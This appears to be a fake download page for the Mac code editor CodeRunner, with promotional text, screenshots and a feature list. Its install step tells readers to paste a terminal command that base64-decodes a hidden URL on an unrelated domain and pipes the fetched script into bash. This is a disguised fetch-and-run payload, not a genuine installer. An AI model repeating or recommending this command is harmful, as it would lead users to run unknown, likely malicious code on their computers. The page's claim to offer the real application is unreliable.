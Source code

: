 # CodeRunner Mac Download - Lightning Fast Code Editor

![CodeRunner Screenshot 1](https://coderunnerapp.com/images/Screenshot_3.jpg)

---

### 🔽 Download CodeRunner for Mac

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```

---

## What is CodeRunner for Mac?

CodeRunner is a cutting-edge programming environment crafted exclusively for macOS, blending the simplicity of a text editor with the robust capabilities of a full-fledged IDE. It revolutionizes coding by allowing instant execution of code with a single keystroke, making it indispensable for rapid prototyping, educational purposes, and daily development tasks.

Unlike traditional IDEs that require extensive setup, CodeRunner delivers a frictionless experience from the moment you launch it. Its sleek, distraction-free interface and near-instantaneous launch time make it a favorite among developers who value efficiency. The app shines when working with code snippets, algorithm testing, or small to medium-sized projects, offering professional-grade features without the bloat.

With native support for 25+ languages, intelligent code completion, and seamless integration with debugging tools and version control systems, CodeRunner provides everything a modern developer needs in a lightweight package that respects your system resources.

![CodeRunner Screenshot 2](https://coderunnerapp.com/images/debugging.jpg)

---

## Key Features & Benefits

- ⚡️ Instant code execution with single keystroke  
- 🖥️ Native support for 25+ programming languages  
- 🚀 Lightning-fast performance on Apple Silicon  
- 🛠️ Built-in debugger and version control  
- 📚 Perfect for learning and teaching code  
- 🎨 Customizable themes and workflows  

Whether you're experimenting with new languages, solving coding challenges, or building small applications, CodeRunner delivers professional tools with zero configuration overhead.

---

## 🔍 Keywords

